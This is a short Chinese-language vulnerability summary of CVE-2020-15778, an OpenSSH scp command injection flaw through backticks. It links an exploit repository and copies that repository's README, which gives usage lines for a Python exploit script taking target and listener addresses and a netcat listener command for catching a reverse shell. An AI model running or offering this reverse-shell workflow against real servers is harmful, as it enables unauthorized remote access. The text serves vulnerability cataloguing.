

# CVE-2020-15778

## 来源

[https://github.com/Neko-chanQwQ/CVE-2020-15778-Exploit](https://github.com/Neko-chanQwQ/CVE-2020-15778-Exploit)

## 简介

OpenSSH 8.3p1及之前版本中的scp的scp.c文件存在操作系统命令注入漏洞。该漏洞即使在禁用ssh登录的情况下，但是允许使用scp传文件，而且远程服务器允许使用反引号(`)，可利用scp复制文件到远程服务器时，执行带有payload的scp命令，从而在后续利用中getshell。

## 影响范围

-   openssh <= 8.3p1

## 漏洞类型

命令注入

## Exploit for CVE-2020-15778(OpenSSH vul)  
Example: python CVE-2020-15778.py -ip 192.168.11.123 -lhost 192.168.11.124 -lport 1234  
You need to use netcat to listen port before use python script  
Example: nc -lvp 1234  
1.Screenshot of using script  
  
2.Screenshot of get shell  
  

 2021-7-21 Update Log:  
 Use python-nmap to check host status  
 Usage:python3 CVE-2020-15778-Update.py -ip 192.168.11.123 -lhost 192.168.11.124 -lport 1234  
 "pip3 install python-nmap" before you use Update version script  
 XD
